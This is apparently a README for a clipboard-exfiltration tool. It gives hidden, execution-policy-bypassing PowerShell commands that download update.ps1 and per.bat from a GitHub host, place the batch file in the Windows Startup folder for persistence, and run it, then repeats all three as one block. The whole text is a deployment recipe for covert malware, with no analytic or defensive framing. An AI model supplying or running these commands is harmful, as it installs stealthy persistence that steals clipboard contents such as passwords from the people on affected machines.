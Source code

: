 Save update.ps1 to $env:userprofile\AppData\Roaming 

    powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipboardExfiltration/main/update.ps1" -OutFile "$env:userprofile\AppData\Roaming\update.ps1" -UseBasicParsing'

Then save the bat file into startup programs

    powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipboardExfiltration/main/per.bat" -OutFile "$env:APPDATA\Microsoft\Windows\Start` Menu\Programs\Startup\per.bat" -UseBasicParsing'

Then run the bat file for the first time

    Invoke-Expression -Command "& '$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\per.bat'" 




All together

```
powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipboardExfiltration/main/update.ps1" -OutFile "$env:userprofile\AppData\Roaming\update.ps1" -UseBasicParsing'
powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipboardExfiltration/main/per.bat" -OutFile "$env:APPDATA\Microsoft\Windows\Start` Menu\Programs\Startup\per.bat" -UseBasicParsing'
Invoke-Expression -Command "& '$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\per.bat'" 

```
